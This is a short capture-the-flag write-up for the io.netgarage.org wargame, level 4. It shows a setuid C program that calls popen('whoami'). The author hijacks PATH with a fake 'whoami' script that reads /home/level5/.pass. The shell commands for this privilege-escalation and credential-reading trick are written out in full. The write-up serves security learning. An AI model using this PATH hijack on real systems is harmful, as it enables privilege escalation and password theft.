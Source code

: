# io.netgarage.org: level4
Login to the challenge server, run the binary, you know the drill:
```
level4@io:/levels$ ./level04
Welcome level5
level4@io:/levels$
```
Let's take a look at the source:
```C
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```
The program simply runs `whoami`, gets the result, and print's "Welcome 
<username>". Because it says "Welcome level5", we know this is a setuid 
program.
This vulnerability is simple: we can edit the `PATH` environment variable 
to add our own `whoami` command that prints the pass rather than the current
user:
```
level4@io:/levels$ mkdir /tmp/msimwashere
level4@io:/levels$ echo "cat /home/level5/.pass" > /tmp/msimwashere/whoami
level4@io:/levels$ chmod +x /tmp/msimwashere/whoami
level4@io:/levels$ export PATH=/tmp/msimwashere:$PATH
```

Now our own `whoami` is at the start of the `PATH` environment variable, 
meaning it will be called instead of the real `whoami`:

```
level4@io:/levels$ ./level04
Welcome <REDACTED>
```

And we now have the pass from `/home/level5/.pass`:
And so, level04 is solved.

Happy Hacking!

~MarcoSi